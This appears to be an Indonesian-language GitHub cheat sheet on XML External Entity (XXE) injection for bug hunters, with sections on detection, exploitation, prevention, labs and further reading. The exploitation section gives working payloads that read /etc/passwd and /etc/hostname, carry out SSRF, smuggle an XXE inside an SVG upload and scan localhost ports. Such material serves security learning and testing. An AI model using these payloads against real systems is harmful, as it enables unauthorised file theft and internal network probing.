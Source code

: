 # XXE :kiss:

<p align="center"><img src="https://user-images.githubusercontent.com/52058660/90031186-25536580-dce7-11ea-9da9-dcc9b4473bf7.jpg" width="500"></p>

## Detection
  - [Aplikasi](https://christian-schneider.net/GenericXxeDetection.html) yang mengirimkan data dalam format XML (XML endpoint)
  - Webpage yang request header `Content-Type`-nya adalah `text/xml` atau `application/xml`
  - Web service yang mengunakan XML seperti RSS, SOAP
  - File upload function
  
## Tools
  - Burpsuite
  - [xxeserve](https://github.com/joernchen/xxeserve)
  
## Exploitation
  - Retrieve Files. Inject [payload](https://github.com/payloadbox/xxe-injection-payload-list) ke bagian `!DOCTYPE`
    ```
    <!DOCTYPE foo [ <!ENTITY xxe SYSTEM “file:///etc/passwd”> ]>
    ```
  - Exploiting to perform Server Side Request Forgery (SSRF). Sama seperti cara di atas tapi protokol yang digunakan adalah `http` dilanjutkan dengan ip server target
    ```
    <!DOCTYPE foo [ <!ENTITY xxe SYSTEM “http://XXX.XXX.XXX.XXX”> ]>
    ```
  - Gunakan `XInclude` jika tidak bisa memodifikasi `!DOCTYPE`. Harap baca SOAP dan XML namespace untuk pemahaman lebih lanjut. 
    ```
    <foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
    ```
  - Exploiting via file upload. Caranya adalah dengan membuat file SVG yang mengandung exploit xxe
    ```
    <?xml version="1.0" standalone="yes"?>
    <!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
    <svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
    <text font-size="16" x="0" y="16">&xxe;</text>
    </svg>
    ```
  - *Blind XXE vulnerabilities arise where the application is vulnerable to XXE injection but does not return the values of any defined external entities within its responses*. Sangat manjur jika menggunakan Burp Collaborator.
  

  - Modifikasi `content-type` pada POST request header.  Ketika respons adalah `200 OK` dan menghasilkan nilai yang sama, maka kita bisa menyelipkan payload pada requesnya
      ```
      POST /action HTTP/1.0
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 7
      foo=bar
      ```
    dimodif dong
      ```    
      POST /action HTTP/1.0
      Content-Type: text/xml
      Content-Length: 52
      <?xml version="1.0" encoding="UTF-8"?><foo>bar</foo>
      ```
  - Test local machine port (gunakan burp intruder). Brute port dari ip local, lalu cek bergantian `http` dan `https`
    ```
    <!DOCTYPE xxe SYSTEM "http://127.0.0.1:§port§/">
    <!DOCTYPE xxe SYSTEM "https://127.0.0.1:§port§/">
    ```
  - Exploiting [RSS validator](https://taind.wordpress.com/2017/12/25/root-me-xml-external-entity/). jika tidak punya server sendiri untuk upload file XML, gunakan [filebin](https://filebin.net/)

## Prevention
  - Disable DTD
  - Disable entity saja
  - Dissable XInclude
  
## Tips and Trics
  - Cara cepat menemukan XML endpoint adalah automasi
  - Switch `content-type` menjadi `text/xml` atau `application/xml` lalu analisa respon errornya
  - Gunakan Burp Collaborator untuk detect blind XXE atau, gunakan remote server untuk mendeteksi blind XEE
  - Cari API endpoint
  - Umumnya web request xml menggunakan `Content-Type: application/x-www-form-urlencoded` coba modifikasi menjadi `text/xml` atau `application/xml`

## Lab
  - [Portswigger Web Security Academy - XXE injection](https://portswigger.net/web-security/xxe)
  - [Vulnhub - XXE Lab: 1](https://www.vulnhub.com/entry/xxe-lab-1,254/)
  - [Play XML Entities](https://pentesterlab.com/exercises/play_xxe/course)

## Online Resource
  - [Blind XXE - Hunting in the Dark](https://blog.zsec.uk/blind-xxe-learning/)
  - [XML External Entities ft. JohnHammond](https://www.youtube.com/watch?v=gjm6VHZa_8s&t=497s)
  - [From blind XXE to root-level file read access](https://honoki.net/2018/12/12/from-blind-xxe-to-root-level-file-read-access/)
  - [How we got read access on Google’s production servers](https://blog.detectify.com/2014/04/11/how-we-got-read-access-on-googles-production-servers/)
  - [Identifying Xml eXternal Entity vulnerability (XXE)](https://blog.h3xstream.com/2014/06/identifying-xml-external-entity.html)
  - [List of XML markup languages](https://en.wikipedia.org/wiki/List_of_XML_markup_languages)
  - [Finding and Exploiting XXE – XML External Entities Injection](https://resources.infosecinstitute.com/finding-and-exploiting-xxe-xml-external-entities-injection/#gref)
  - [Generic XXE Detection](https://christian-schneider.net/GenericXxeDetection.html)
  - [Advice From A Researcher: Hunting XXE For Fun and Profit](https://www.bugcrowd.com/blog/advice-from-a-bug-hunter-xxe/)


